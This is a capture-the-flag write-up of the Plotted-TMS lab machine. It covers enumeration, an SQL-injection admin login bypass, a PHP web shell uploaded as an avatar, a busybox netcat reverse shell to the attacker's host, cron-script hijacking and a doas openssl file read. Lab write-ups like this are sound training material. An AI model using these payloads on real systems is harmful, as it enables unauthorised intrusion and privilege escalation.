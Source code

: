 # Plotted-TMS

### Plotted-TMS
Nmap scan shows ports 22,80 and 445 open.<br />
Port 80 and 445 are both apache web servers. After some enumeration, port 80 seems a decoy, while using `dirsearch` I found a login page at port 445, specifically at `http://10.10.130.79:445/management/admin/login.php`. <br />
I started enumerating for any possible valid user but found nothing, I checked any comments or hints in the source code but nothing, then I decided to test if it's vulnerable to SQL injection and it actually is! By just prompting `admin'-- -` I was able to log into the admin panel!<br />
I searched online and I found [this exploit](https://www.exploit-db.com/exploits/50221) that's a Remote code execution for TOMS v1.0. I'll do it manually. Basically we can upload a php shell instead of the avatar image: <br />

![image](https://github.com/user-attachments/assets/2cd095a0-2b36-4a81-a7ef-6955254ded87)<br />
I created a file named `rev.php` with the following code: `<?php system($_GET['cmd']); ?>`. <br />
After the update, just take the link of the image: <br />
![image](https://github.com/user-attachments/assets/83d7eaa9-170b-4b94-ac38-24e00bf97af1)<br />
And then browse it and add `?cmd=whoami`: <br />
![image](https://github.com/user-attachments/assets/d4690171-c3de-47af-974f-df12d2c47bca)<br />
Now to spawn a reverse shell, I'll use `busybox nc my_IP my_PORT -e sh`. <br />
For privesc, I have to access the `plot_admin` account. After some enumeration I found a .sh file inside `/var/www/scripts` called `backup.sh`: <br />
![image](https://github.com/user-attachments/assets/9897e5bd-0bef-41d0-8bed-ce7ff0b71b55)<br />
There's a cronjob that executes this script every minute. This is the content of the script: <br />
![image](https://github.com/user-attachments/assets/2a959baa-3664-4b82-931d-a228d645beb0)<br />
But that is not important. What matters is that the directory `/var/www/scripts` is owned by me, www-data. This means that I can remove whatever file is inside this folder, and then create new ones. So I just run `rm backup.sh`, and now i'll create a new file named `backup.sh` with the following content `busybox nc my_IP my_PORT -e sh`, make it executable and then wait a few seconds: <br />
![image](https://github.com/user-attachments/assets/43ae46c9-be89-4be7-97e2-47a9f858f214)<br />
At this point I started looking for ways to become root. I run linpeas and found a `doas` configuration. 
![image](https://github.com/user-attachments/assets/651d6458-f2af-461b-97ef-524765303053)<br />
I can run `openssl` as root by running `doas openssl`. After trying to become root, and failing for some reason, I just decided to use the root privileges on openssl to read the root flag. Specifically I found this exploit on [gtfobins](https://gtfobins.github.io/gtfobins/openssl/): <br />
![image](https://github.com/user-attachments/assets/1ee1ac77-cf26-46c0-9acc-277b481bddea)<br />
I just run `doas openssl enc -in "/root/root.txt"` and got the flag. 







